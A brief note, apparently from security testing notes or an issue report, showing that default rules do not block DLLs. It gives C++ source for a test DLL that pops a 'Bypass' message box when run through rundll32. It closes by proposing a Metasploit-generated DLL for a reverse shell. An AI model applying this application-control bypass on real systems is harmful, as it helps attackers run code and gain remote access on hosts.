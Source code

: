 Default rules does not block dlls. Example:

```
#include "stdafx.h"
#include <Windows.h>

BOOL APIENTRY DllMain( HMODULE hModule,DWORD ul_reason_for_call,LPVOID lpReserved)

{
	switch (ul_reason_for_call)
	{
		case DLL_PROCESS_ATTACH:
		case DLL_THREAD_ATTACH:
		case DLL_THREAD_DETACH:
		case DLL_PROCESS_DETACH:
			break;
	}
	
	return TRUE;
}

extern "C" __declspec(dllexport) void run()
{
	MessageBoxA(NULL, "Execution happened", "Bypass", MB_OK);
}

```

Compile and save to `c:\tools\testdll.dll` and run `rundll32 c:\tools\testdll.dll`

We can generate dll using msf and get reverse shell.